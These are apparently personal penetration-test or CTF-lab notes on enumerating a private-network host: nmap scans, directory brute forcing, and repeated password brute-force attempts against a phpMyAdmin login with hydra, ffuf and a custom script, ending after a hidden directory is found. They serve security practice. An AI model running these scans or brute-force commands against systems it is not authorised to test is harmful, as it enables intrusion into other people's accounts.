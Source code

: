 # Nmap

## TCP

Scan for open TCP ports:
```bash
nmap -Pn -p- -oN tcp_all.nmap 192.168.227.132
```
Results:
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Enumerate services:
```bash
nmap -Pn -p 22,80 -sV -sC -oN tcp_services.nmap 192.168.227.132
```

## UDP

Scan for open UDP ports:
```bash
nmap -Pn -sU -oN udp_default.nmap 192.168.227.132
```
Results:
No open ports

# HTTP

Gobuster dir brute:
```bash
gobuster dir -u http://192.168.227.132 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
```

![[Pasted image 20240418131650.png]]

/phpmyadmin:
![[Pasted image 20240418131628.png]]
=> PMA_VERSION: 4.6.6deb5
- no known exploits
- default username and password for phpMyAdmin **'root'⁢ and 'password'** dont work

Ffuf password brute force:
```bash
ffuf -request phpmyadmin_login.req -request-proto http -w /usr/share/wordlists/rockyou.txt -fr 'Access denied'
```
=> doesnt work CSRF

Hydra brute force login:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.227.132 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=1&target=index.php&lang=en&collation_connection=utf8mb4_unicode_ci&token=da22ee837de8b2af0a7b63e080f1ca93:F=Access denied"
```
=> doesnt work CSRF

Nikto:
```bash
nikto -host 192.168.227.132 -usecookies
```
=> nothing interesting

Brute-force login with my script :)
```bash
python3 ~/tools/brute_forge/brute_forge.py -u http://192.168.227.132/phpmyadmin/index.php -l root -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/best110.txt -r phpmyadmin_login.req -t 'token:"(.*?)"' --proxy "http://127.0.0.1:8080" -f "Access denied"
```
=> nothing found

Well-known URIs => nothing found

Dirbuster brute-force directories and files:
![[Pasted image 20240420113942.png]]
=> /mini.php

![[Pasted image 20240420114039.png]]

=> /sercret/
![[Pasted image 20240420114242.png]]
harry sally goat oracle lissy

Translate chinese -> english:
![[Pasted image 20240420114220.png]]
